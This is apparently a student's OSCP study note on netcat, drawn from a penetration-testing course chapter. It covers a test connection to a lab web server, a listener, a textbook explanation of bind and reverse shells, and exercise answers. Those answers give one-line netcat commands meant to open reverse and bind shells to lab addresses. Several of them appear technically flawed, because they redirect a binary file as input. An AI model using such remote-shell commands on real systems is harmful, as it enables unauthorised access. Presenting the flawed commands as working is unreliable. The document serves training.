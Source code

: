 
# Tools

## netcat

`nc -nv 192.168.133.128 80`

```
~/codeplay/oscp  master ⇡1 !1  nc -nv 192.168.133.128 80                                                                                                                      ✔  7s   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.133.128:80.
ls
HTTP/1.1 400 Bad Request
Date: Wed, 09 Mar 2022 17:05:08 GMT
Server: Apache/2.4.52 (Debian)
Content-Length: 308
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at hlkali.vuln.land Port 80</address>
</body></html>
```

`nc -nlvp 4444`


wget.exe can be pushed through netcat
/usr/share/windows-resources/binaries/wget.exe


For example, consider the cmd.exe executable. By redirecting stdin, stdout, and stderr to the
network, we can bind cmd.exe to a local port. Anyone connecting to this port will be presented with
a command prompt on the target computer.

Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell.

### 4.1.4.3 Exercises
(Reporting is not required for these exercises)
1. Implement a simple chat between your Kali machine and Windows system.
   no windows machine but it would be through nc
![](../chapter3/nc_binary.png)

2. Use Netcat to create a:
a. Reverse shell from Kali to Windows.
`nc -nv 10.10.10.10 8080 < /bin/bash`

b. Reverse shell from Windows to Kali.
`nc -nv 10.10.10.10 8080 < cmd.exe`


c. Bind shell on Kali. Use your Windows system to connect to it.

`nc -nlvp 4444 < /bin/bash`


d. Bind shell on Windows. Use your Kali machine to connect to it.

`nc -nlvp 4444 < cmd.exe`


3. Transfer a file from your Kali machine to Windows and vice versa.

![](../chapter3/nc_transfer.png)

4. Conduct the exercises again with the firewall enabled on your Windows system. Adapt the
exercises as necessary to work around the firewall protection and understand what portions
of the exercise can no longer be completed successfully

okay if firewall blocks both incoming and outcoming that will be a problem.

![](../chapter3/nc_shell.png)

